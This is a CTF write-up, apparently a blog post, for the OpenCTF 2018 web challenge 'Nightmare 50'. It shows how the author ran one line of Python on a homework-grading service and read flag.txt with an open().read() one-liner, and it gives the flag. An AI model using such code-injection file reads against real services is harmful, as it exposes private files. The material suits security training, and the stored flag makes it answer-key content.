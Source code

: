 ```yaml
---
title: "OpenCTF Nightmare 50"
date: Sun, 12 Aug 2018 20:27:00 +0000
draft: false
type: posts
---
```

# OpenCTF Nightmare 50

<br/>

<br/>
**Category:** Web

**Points:** 50

**Description:**

```
Automated home work scoring my ass. https://shades-of-nightmare.openctf.com/nzpoixyucvkjwnerntasdfascdvasdfqwerqwe/nightmare-50/
```

When connecting to this website in my browser, I receive the following prompt:

```
Welcome to Doctor Professor Wilson's Python 101!
Lesson 1: hello world
Enter homework for grading:
```

So it looks like this will execute the Python code you provide. So I test it with the following:

```
Welcome to Doctor Professor Wilson's Python 101!
Lesson 1: hello world
Enter homework for grading:
print('Hello world')
Hello world
```

And then it immediately closes the connection. So it looks like it only allows a single line of Python code.

I then decide to try and dump the working directory file contents. This can be done with `os.listdir('.')`, however, this would require a call to `import os`. Unfortunately, it appears some or all imports are blocked, as an error was returned. So instead, I decide to just guess that there exists a file either called `flag.txt` or `flag` in the working directory, and luckily, opening and reading files doesn’t require any imports. So I construct a one-liner to do just that: `print(open('flag.txt','r').read())`.

```
Welcome to Doctor Professor Wilson's Python 101!
Lesson 1: hello world
Enter homework for grading:
print(open('flag.txt','r').read())
ThisIsAVeryFl@ggyFlag
```

Flag
====

**ThisIsAVeryFl@ggyFlag**

#### [Source](http://b0tchsec.com/2018/openctf/nightmare50)

<br/>
---
